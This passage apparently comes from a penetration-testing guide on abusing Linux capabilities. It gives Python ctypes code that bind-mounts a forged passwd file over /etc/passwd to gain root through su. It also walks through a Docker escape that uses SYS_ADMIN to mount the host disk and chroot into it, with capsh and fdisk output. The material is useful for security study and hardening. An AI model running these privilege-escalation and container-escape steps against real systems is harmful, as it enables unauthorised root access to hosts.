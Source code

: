 And finally **mount** the modified `passwd` file on `/etc/passwd`:

```python
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"/path/to/fake/passwd"
target = b"/etc/passwd"
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)
```

And you will be able to **`su` as root** using password "password".

#### Example with environment (Docker breakout)

You can check the enabled capabilities inside the docker container using:

```
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```

Inside the previous output you can see that the SYS\_ADMIN capability is enabled.

* **Mount**

This allows the docker container to **mount the host disk and access it freely**:

```bash
fdisk -l #Get disk name
Disk /dev/sda: 4 GiB, 4294967296 bytes, 8388608 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes

mount /dev/sda /mnt/ #Mount it
cd /mnt
chroot ./ bash #You have a shell inside the docker hosts disk
```
